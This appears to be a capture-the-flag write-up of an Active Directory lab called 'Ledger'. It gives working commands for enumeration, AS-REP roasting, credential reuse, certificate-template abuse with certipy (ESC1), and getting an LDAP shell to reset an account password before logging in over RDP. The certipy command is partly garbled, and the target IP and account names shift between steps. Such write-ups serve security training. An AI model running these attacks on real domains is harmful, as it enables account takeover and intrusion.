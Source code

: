 # Ledger

## Machine Info

Domain name: `THM.local`

FQDN: `labyrinth.thm.local`&#x20;

Dinaub SID: `S-1-5-21-1966530601-3185510712-10604624`





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.242.176 -oN port_scan.txt

Nmap scan report for 10.10.242.176
Host is up (0.043s latency).
Not shown: 65505 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-29 07:27:05Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
|_ssl-date: 2025-07-29T07:28:13+00:00; -2s from scanner time.
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA
| Not valid before: 2023-05-12T07:26:00
|_Not valid after:  2028-05-12T07:35:59
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-29T07:28:13+00:00; -2s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Not valid before: 2025-07-28T07:22:51
|_Not valid after:  2026-01-27T07:22:51
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
7680/tcp  open  pando-pub?
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC

```



## LDAP Enum

With this nmap command we can notice that we anonymous ldap is enabled, and we can use this flaw to enum the Domain.

```bash
nmap -p 389 --script ldap-search 10.10.242.176
```



### AS-REP Roastable user

Now, with impacket we can enumerate the user with "**Do not require Kerberos preauthentication**" parameter to enable.

```bash
impacket-GetNPUsers THM.local/ -dc-ip 10.10.242.176

Name            MemberOf  PasswordLastSet             LastLogon  UAC      
--------------  --------  --------------------------  ---------  --------
SHELLEY_BEARD             2023-05-30 11:46:05.083950  <never>    0x410200 
ISIAH_WALKER              2023-05-30 11:46:09.380690  <never>    0x410200 
QUEEN_GARNER              2023-05-30 11:46:14.208632  <never>    0x410200 
PHYLLIS_MCCOY             2023-05-30 11:46:20.583409  <never>    0x410200 
MAXINE_FREEMAN            2023-05-30 11:46:51.475615  <never>    0x410200 
```

Request the tgt ticket for all user above.

```bash
impacket-GetNPUsers THM.local/SHELLEY_BEARD -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/ISIAH_WALKER -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/QUEEN_GARNER -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/PHYLLIS_MCCOY -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/MAXINE_FREEMAN -dc-ip 10.10.242.176 -no-pass
```

Copy all results in a file and try to crack at least one.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt tgts_ticket.txt
```

Nothing results :(



### AD Object description

Check if there are some passwords in the user's AD description

{% code overflow="wrap" %}
```bash
ldapsearch -x -H ldap://thm.local -b "dc=thm,dc=local" "(objectClass=user)" cn description

[..snip..]
# SUSANNA_MCKNIGHT, Test, ITS, Tier 1, thm.local
dn: CN=SUSANNA_MCKNIGHT,OU=Test,OU=ITS,OU=Tier 1,DC=thm,DC=local
cn: SUSANNA_MCKNIGHT
description: Please change it: CHANGEME2023!
[..snip..]
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>

We found a possible password for the SUSANNA\_MCKNIGHT user. Using cme check if the password is still valid.

```bash
crackmapexec smb 10.10.242.176 -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!'
```

<figure><img src="../../../.gitbook/assets/image (332).png" alt=""><figcaption></figcaption></figure>

It's still vaild.



## Bloodhound enumeration

With the credentials found, enumerate the Domain with bloodhound

{% code overflow="wrap" %}
```bash
bloodhound-python -c all -ns 10.10.242.176 -dc labyrinth.thm.local -d thm.local --zip -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!'
```
{% endcode %}

The bloodhound research didn't find out interesting things to escalate our priviliges



## AD CS finding

Try to find out some Certs misconfiguration .

{% code overflow="wrap" %}
```bash
certipy find -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!' -dc-ip 10.10.242.176 -vulnerable -enabled

cat *_Certipy.txt | grep ESC
```
{% endcode %}

From this output we can see that the CA:

```
Certificate Authorities             : thm-LABYRINTH-CA
```

It's vulnerable to ESC1.

```
ESC1        : Enrollee supplies subject and template allows client authentication.
```

### ESC1 flaw

Using this flaw we can request a certificate for any user in the Domain.&#x20;

{% code overflow="wrap" %}
```bash
certipy req -ca 'thm-LABYRINTH-CA' -dc-ip '10.10.242.176' -u 'SUSANNA_MCKNIGHT' -p certipy req -u "SUSANNA_MCKNIGHT@thm.local" -p 'CHANGEME2023!' -dc-ip '10.10.102.159' -target "labyrinth.thm.local" -ca 'thm-LABYRINTH-CA' -template 'ServerAuth' -upn 'administrator@thm.local'
```
{% endcode %}

Now the certificate is broken and when i try to request the TGT, it generates a PADATA error because the certificate is expired.

The solution is extract the .key and .crt from the pfx and login with Pass-the-cert python tool.

{% code overflow="wrap" %}
```bash
certipy cert -pfx administrator.pfx -nokey -out "administrator.crt"
certipy cert -pfx administrator.pfx -nocert -out "administrator.key"

python3 passthecert.py -action ldap-shell -crt ../../administrator.crt  -key ../../administrator.key -domain thm.local -dc-ip 10.10.102.159
```
{% endcode %}

Now that we have a LDAP-SHELL we can use the function `change_password` to change the administrator  user password and access to the system as administrator.

```bash
change_password BRADLEY_ORTIZ Password123!
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## RDP as administrator user

```bash
xfreerdp3 /v:10.10.102.159 /u:BRADLEY_ORTIZ /p:Password123!
```

Run as Powershell as administrator and print the user and root flag.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
